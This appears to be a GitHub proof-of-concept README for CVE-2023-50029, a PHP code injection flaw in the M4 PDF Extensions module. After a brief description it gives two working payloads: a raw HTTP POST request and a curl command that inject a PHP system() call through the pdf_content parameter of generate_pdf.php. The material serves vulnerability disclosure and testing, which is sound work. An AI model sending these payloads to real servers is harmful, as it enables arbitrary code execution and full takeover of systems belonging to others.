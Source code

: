 # PHP-Injection-in-M4-PDF-Extensions
CVE-2023-50029 is a PHP injection vulnerability in the M4 PDF Extensions module. This vulnerability allows attackers to inject and execute arbitrary PHP code on the server, enabling them to gain full control over the targeted system. The issue lies in the improper validation of inputs, allowing malicious code to be passed through user parameters.

### Poc
```
POST /generate_pdf.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

pdf_content=<?php system('uname -a'); ?>
```

### OR Curl
```
curl -X POST http://example.com/generate_pdf.php -d "pdf_content=<?php system('uname -a'); ?>"
```
